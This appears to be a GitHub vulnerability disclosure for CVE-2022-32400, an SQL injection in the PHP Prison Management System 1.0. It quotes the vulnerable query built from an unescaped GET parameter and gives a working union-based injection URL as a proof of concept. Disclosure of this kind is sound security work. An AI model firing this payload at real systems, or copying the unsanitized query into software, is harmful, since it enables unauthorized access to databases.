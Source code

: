 # CVE-2022-32400
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/user/manage_user.php:4`
```php
$user = $conn->query("SELECT * FROM users where id ='{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Union Based
http://localhost/pms/admin/?page=user/manage_user&id=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10,11%23
```
- `http://localhost/pms/admin/?page=user/manage_user&id=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10,11%23`
![True](./img/cve-2022-32400.png)